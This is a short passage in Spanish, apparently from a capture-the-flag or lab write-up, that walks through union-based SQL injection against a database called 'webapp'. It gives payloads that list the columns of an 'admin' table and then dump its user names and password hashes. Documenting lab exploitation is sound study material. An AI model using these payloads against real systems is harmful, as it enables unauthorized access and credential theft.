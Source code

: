 La base de datos `webapp` contiene dos tablas que son `admin` y `stock` 

Continuamos con la enumeración de la base de datos, en esta enumeraremos las columnas que contiene la tabla.

```php
seven' union select 1,column_name,3,4 from information_schema.columns where table_name='admin' and table_schema='webapp' -- -
```

![20231121170720.png](20231121170720.png)

Tenemos las columnas de `id`, `user` y `hash`. Conociendo estos datos realizaremos una consulta a la tabla  con los siguiente: `seven' union select 1,id,user,hash from webapp.admin-- -`

![20231121171125.png](20231121171125.png)
